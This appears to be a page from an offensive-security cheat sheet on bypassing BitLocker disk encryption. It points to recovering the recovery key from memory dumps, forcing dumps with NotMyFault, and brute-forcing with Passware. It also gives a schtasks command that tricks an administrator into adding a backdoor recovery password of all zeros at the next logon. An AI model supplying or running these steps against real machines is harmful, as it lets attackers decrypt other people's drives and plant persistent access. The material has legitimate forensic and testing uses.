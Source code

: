 # 🔏 BitLocker

## Bypassing Bitlocker

>Bitlocker uses **2 passwords** : 
>- The one used by the user, 
>- The recovery password (48 digits). 
>
>Try to search for the recovery password in : **C:\Windows\MEMORY.DMP** (memory dump). 
>
>You can get this file and a copy of the filesytem and then use **Elcomsoft Forensic Disk Decryptor** to get the content (this will only work if the password is inside the memory dump). 
>
>You could also force the memory dump using **NotMyFault** of Sysinternals, but this will reboot the system and has to be executed as Administrator. 
>
>You could also try a **bruteforce attack** using *Passware Kit Forensic*.

### Check if enabled

```powershell
# cmd
manage-bde -status
# powershell
Get-BitLockerVolume
```

### Social Engineering

Finally, you could make the user add a new recovery password making him executed as administrator:

```powershell
schtasks /create /SC ONLOGON /tr "c:/windows/system32/manage-bde.exe -protectors -add c: -rp 000000-000000-000000-000000-000000-000000-000000-000000" /tn tarea /RU SYSTEM /f
```

This will add a new recovery key (composed of 48 zeros) in the next login. To check the valid recovery keys you can execute:

```bash
manage-bde -protectors -get c:
```
